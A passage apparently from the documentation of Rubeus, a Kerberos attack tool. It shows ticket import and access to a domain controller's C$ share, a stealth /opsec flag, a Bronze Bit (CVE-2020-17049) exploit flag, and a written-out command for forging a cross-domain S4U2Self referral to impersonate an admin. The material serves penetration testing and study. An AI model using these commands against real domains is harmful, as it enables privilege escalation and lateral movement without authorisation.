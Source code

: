         doIGujCCBragAwIBBaEDAgEWoo..(snip)..

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    C:\Rubeus>dir \\primary.testlab.local\C$
    Volume in drive \\primary.testlab.local\C$ has no label.
    Volume Serial Number is A48B-4D68

    Directory of \\primary.testlab.local\C$

    07/05/2018  12:57 PM    <DIR>          dumps
    03/05/2017  04:36 PM    <DIR>          inetpub
    08/22/2013  07:52 AM    <DIR>          PerfLogs
    04/15/2017  05:25 PM    <DIR>          profiles
    08/28/2018  11:51 AM    <DIR>          Program Files
    08/28/2018  11:51 AM    <DIR>          Program Files (x86)
    10/09/2018  12:04 PM    <DIR>          Temp
    08/23/2018  03:52 PM    <DIR>          Users
    10/25/2018  01:15 PM    <DIR>          Windows
                1 File(s)              9 bytes
                9 Dir(s)  40,511,676,416 bytes free

By default, several differences exists between the S4U2Self and S4U2Proxy TGS-REQ's generated by Rubeus and genuine requests. To form the TGS-REQ's more inline with genuine requests, the `/opsec` flag can be used. As this flag is intended to make Rubeus traffic more stealthy, it cannot by default be used with any encryption type other than `aes256` and will just throw a warning and exit if another encryption type is used. To allow for other encryption types to be used with the `/opsec` changes, the `/force` flag exists. The `/opsec` flag has not yet been implemented for cross domain S4U.

The *Bronze Bit* exploit (CVE-2020-17049) is implemented using the `/bronzebit` flag. Adding this flag will automatically flip the *forwardable* flag when retreiving the S4U2Self ticket. As flipping this flag requires the service ticket to be decrypted and reencrypted, the long term key (service account's password hash) is required. For this reason, if a TGT is being supplied, the service accounts credentials are also required for this to work.

It is possible, in certain cirsumstances, to use an S4U2Self ticket to impersonate protected users in order to escalate privileges on the requesting system, as discussed [here](https://exploit.ph/revisiting-delegate-2-thyself.html). For this purpose, the `/self` flag and `/altservice:X` argument can be used to generate a usable service ticket.

To forge an S4U2Self referral, only the trust key is required. By using the `/targetdomain:X` argument with the `/self` flag and without the `/targetdc` argument, Rubeus will treat the ticket supplied with `/ticket:X` as an S4U2Self referral and only request the final S4U2Self service ticket. The `/altservice:X` can also be used to rewrite the sname in the resulting ticket:

    C:\Rubeus>Rubeus.exe s4u /self /targetdomain:internal.zeroday.lab /dc:idc1.internal.zeroday.lab /impersonateuser:external.admin /domain:external.zeroday.lab /altservice:host/isql1.internal.zeroday.lab /nowrap /ticket:C:\temp\s4u2self-referral.kirbi

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
